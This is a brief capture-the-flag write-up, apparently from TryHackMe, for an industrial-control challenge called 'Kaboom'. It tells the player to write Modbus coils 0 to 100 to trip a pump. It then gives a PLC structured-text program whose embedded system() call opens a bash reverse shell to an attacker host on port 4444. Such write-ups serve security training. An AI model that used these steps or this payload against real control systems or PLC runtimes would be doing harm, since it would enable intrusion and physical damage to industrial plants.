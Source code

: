 ```yaml
---
title: Kaboom
category: OT
tags: 
draft: true
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> This challenge drops you into the shoes of the APT operator: With a single crafted Modbus, you over-pressurise the main pump, triggering a thunderous blow-out that floods the plant with alarms. While chaos reigns, your partner ghosts through the shaken DMZ and installs a stealth implant, turning the diversion’s echo into your persistent beachhead.

---

## Modbus

Write coils from address `0` to `100?` with values `1`.

## Ubuntu Access

```
PROGRAM prog0
  VAR
    var_in : BOOL;
    var_out : BOOL;
  END_VAR

  var_out := var_in;

  { system("bash -c 'bash -i >& /dev/tcp/10.17.37.98/4444 0>&1'"); }
END_PROGRAM


CONFIGURATION Config0

  RESOURCE Res0 ON PLC
    TASK Main(INTERVAL := T#50ms,PRIORITY := 0);
    PROGRAM Inst0 WITH Main : prog0;
  END_RESOURCE
END_CONFIGURATION
```
